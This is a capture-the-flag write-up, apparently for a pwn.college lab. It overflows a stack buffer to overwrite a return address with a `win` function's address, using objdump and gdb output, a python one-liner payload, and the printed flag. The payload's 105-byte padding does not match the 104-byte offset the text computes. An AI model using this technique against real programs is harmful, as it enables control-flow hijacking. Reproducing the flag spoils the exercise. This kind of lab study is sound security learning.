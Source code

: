 This challenge similar to the previous one. The only difference is that in this challenge there is no win variable which means we have to change the return address of the `challenge` function to the address of `win` function.

From `objdump`

    0000000000402020 g     F .text	0000000000000065              __libc_csu_init
    0000000000401d22 g     F .text	0000000000000107              win
    0000000000405168 g       .bss	0000000000000000              _end

The address of win function is `0x401d22`

Next we have to find out the offset of the address where return address is stored on stack from the input buffer.

    0x0000000000402001 <+193>:	call   0x401e29 <challenge>
    0x0000000000402006 <+198>:	lea    0x1180(%rip),%rdi        # 0x40318d
    0x000000000040200d <+205>:	call   0x401110 <puts@plt>

The return address of challenge function is `0x402006`

    0x7ffd46283b60:	0x00000d68	0x00000000	0x46284d28	0x00007ffd
    0x7ffd46283b70:	0x46284d18	0x00007ffd	0x0000000a	0x00000001
    0x7ffd46283b80:	0x836676a0	0x0000703d	0x000000c8	0x00000000
    0x7ffd46283b90:	0x41414141	0x0a414141	0x00000000	0x00000000
    0x7ffd46283ba0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffd46283bb0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffd46283bc0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7ffd46283bd0:	0x00000000	0x00000000	0x00402000	0x00000000
    (gdb) 
    0x7ffd46283be0:	0x46284c20	0x00000008	0x46283b90	0x00007ffd
    0x7ffd46283bf0:	0x46284c20	0x00007ffd	0x00402006	0x00000000

The return address is at `0x7ffd46283bf8`
The input buffer is at `0x7ffd46283b90`

The offset is `104`

The payload

    python -c 'import time,sys; sys.stdout.buffer.write(b"124"); time.sleep(2); sys.stdout.buffer.write(b"A"*105 + b"\x22\x1d\x40")' | ./program

The flag

    pwn.college{g80QCaswXzE9g3HBMmOP6kZE1wj.0FN5IDL5kzM1czW}
